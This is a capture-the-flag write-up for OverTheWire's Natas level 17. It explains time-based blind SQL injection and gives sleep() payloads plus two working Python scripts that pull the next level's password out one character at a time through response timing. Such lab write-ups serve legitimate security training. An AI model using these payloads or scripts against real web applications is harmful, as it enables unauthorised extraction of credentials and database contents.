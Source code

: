 # natas17

In the source code, we do not see anything being printed when the user exists or not. So what do we do?
Well let's try another form of SQLi, called Time based SQLi, where since we do not get any printed response, we can check the existance of user if time elapsed matches our input elapse time. For example-
```sql
hi" and sleep(2); # -- gives no time elapse
natas18" and sleep(2); # -- gives 2 seconds gap before going to next screen
```
We can use this to check the session time and brute force each character. The python code for this is-
```python
import requests
import string

url = 'http://natas17.natas.labs.overthewire.org/'
auth = ('natas17', '<password>')  # replace <password> with the actual password
characters = string.ascii_letters + string.digits
known_password = ''

session = requests.Session()
session.auth = auth

for _ in range(32):  # assuming the password is 32 characters long
    for char in characters:
        sql = f'natas18" AND IF(password LIKE BINARY "{known_password}{char}%", SLEEP(2), null) #'
        response = session.post(url, data={'username': sql})
        if response.elapsed.total_seconds() > 2: # you can choose some other time too.
            known_password += char
            print(known_password)
            break

print(known_password)
```
This will give us our password and we are set to go for the next round.

**NOTE:** This takes a lot of time, so one trick that can be done is that check which all characters satisfy our password, then among them reorder for the password. This will reduce number of checking. The code for the above is-
```python
import requests
import string
pwd_len = 32

charset_0 = string.ascii_letters + string.digits
charset_1 = ''

target = 'http://natas17.natas.labs.overthewire.org/'
auth = ('natas17', '<password>')  # replace <password> with the actual password
sleep_time = 5

for c in charset_0:
	username = 'natas18" AND IF(password LIKE BINARY "%%%c%%",SLEEP(%d), 1)#' % (c, sleep_time)
	r = requests.get(target, auth=auth, params={"username": username}
	)
	s = r.elapsed.total_seconds()
	if s >= sleep_time:
		charset_1 += c
		print ('C: ' + charset_1.ljust(len(charset_0), '*'))


password = ""
while len(password) != pwd_len:
	for c in charset_1:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, sleep_time)
		r = requests.get(target, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= sleep_time:
			print ('P: ' + t.ljust(pwd_len, '*'))
			password = t
			break

print(password)
```
